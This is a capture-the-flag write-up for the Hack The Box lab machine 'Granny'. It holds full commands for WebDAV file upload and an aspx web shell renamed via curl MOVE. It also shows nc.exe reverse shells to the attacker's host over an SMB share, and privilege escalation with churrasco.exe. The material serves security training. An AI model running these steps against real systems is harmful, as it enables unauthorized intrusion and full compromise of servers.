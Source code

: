 ```yaml
---
layout: post
title: HTB Machine - Granny
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/e8a122e2d713a4fb4a180bb9ccd20248.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/e8a122e2d713a4fb4a180bb9ccd20248.png
share-img: https://www.hackthebox.com/storage/avatars/e8a122e2d713a4fb4a180bb9ccd20248.png
tags: [ HTB, Hack the Box,WebDav,ASP,IIS,Web,Vulnerability Assessment,Outdated Software,Reconnaissance,Arbitrary File Upload,Misconfiguration,Metasploit]
---
```

scans:
```zsh
sudo nmap -sS --min-rate 5000 10.10.10.15 -n -Pn -p- -oG ./nmap/allports
sudo nmap -sCV -oN ./nmap/targeted -p80 10.10.10.15
whatweb http://10.10.10.15
http://10.10.10.15 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.15], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```
we have a windows machine, with IIS webservice and WebDAV that is the only port open. WebDAV is a set of extensions that allows user agents to edit contents directly in an HTTP web server. We can test what the server accepts for us to put in it with davtest.
```zsh
davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.15
********************************************************
NOTE	Random string for this session: k1mwRdXkGzG
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_k1mwRdXkGzG
********************************************************
 Sending test files
PUT	aspx	FAIL
PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.cfm
PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.txt
PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.jhtml
PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.php
PUT	cgi	FAIL
PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.pl
PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.jsp
PUT	shtml	FAIL
PUT	asp	FAIL
PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.html
********************************************************
 Checking for test file execution
EXEC	cfm	FAIL
EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.txt
EXEC	txt	FAIL
EXEC	jhtml	FAIL
EXEC	php	FAIL
EXEC	pl	FAIL
EXEC	jsp	FAIL
EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.html
EXEC	html	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_k1mwRdXkGzG
PUT File: http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.cfm
PUT File: http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.txt
PUT File: http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.jhtml
PUT File: http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.php
PUT File: http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.pl
PUT File: http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.jsp
PUT File: http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.html
Executes: http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.txt
Executes: http://10.10.10.15/DavTestDir_k1mwRdXkGzG/davtest_k1mwRdXkGzG.html
```
The best is if we would be able to place an aspx file that the server can interpret but it is not possible to upload this type of file as we will get an error when trying to do so. But we can upload a text file and then 'move' or rename the extension. We are going to use curl to upload the txt and also then to move or rename it. 
```zsh
locate cmd | grep .aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx

curl -s -T cmd.txt "http://10.10.10.15/cmd.txt"

curl -X MOVE --header 'Destination:http://10.10.10.15/cmd.aspx' 'http://10.10.10.15/cmd.txt'
```
now that we have a webpage that can interpret our commands we will share a nc via smb and use the webpage to pull it and execute a revere shell.
```zsh 
sudo rlwrap nc -nlvp 443

impacket-smbserver smbFolder $(pwd) -smb2support

\\10.10.14.3\smbFolder\nc.exe -e cmd 10.10.14.3 449
```
once in, we have no rights no check any of the folders of interest meaning that we have to scalate our privileges. We have the SeImpersonatePrivilege so juicy potato is an option here. However due to the fact that this is an old windows the exploit wont work.
```zsh
systeminfo
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
```

if we google for 'windows server 2003 juicy potato privilege escalation' a blog comes with a solution, we donwload the file from the github repo and share via smb folder.

[Juicy Potato Blog](https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)

[Churrasco blog](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

[Churrasco github](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe)

Now we can create a folder in our target where we will download the exe. By executing it we see it has admin privileges; so we are going to launch another reverse shell session but this time it will have admin privileges.

```zsh
copy \\10.10.14.3\smbFolder\churrasco.exe churrasco.exe

churrasco.exe "whoami"

sudo rlwrap nc -nlvp 449

churrasco.exe "\\10.10.14.3\smbFolder\nc.exe -e cmd 10.10.14.3 449"
```
from there we have gained admin privileges and we can retrieve the flag from both user and admin folders.

